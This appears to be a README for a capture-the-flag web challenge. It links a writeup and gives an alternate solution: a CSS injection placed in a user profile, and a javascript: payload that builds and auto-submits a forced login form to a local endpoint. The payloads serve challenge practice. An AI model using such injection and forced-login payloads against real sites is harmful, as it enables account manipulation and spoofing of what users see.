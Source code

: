 Check out duckrice404's writeup here: <https://deyixtan.github.io/posts/wxmctf2023/web5-ourspace/>

Environment variables needed: 
`FLAG=wxmctf{theflag}`
`JWT_SECRET=somesecret`

Alternate Solution: (same idea, different method) 

Create an account with following profile: 
```html
<style>
p {
display: inline !important;
margin-top: -24rem;
position: absolute;
}
</style>
```

Then enter this in the research field: 
```js
javascript:{
var form = document.createElement("form");
form.method = "POST";
form.action = "http://127.0.0.1:3000/login";
var element1 = document.createElement("input"); 
var element2 = document.createElement("input");  
element1.value="123456";
element1.name="username";
form.appendChild(element1);  
element2.value="123456";
element2.name="password";
form.appendChild(element2);
document.body.appendChild(form);
form.submit();
}
```
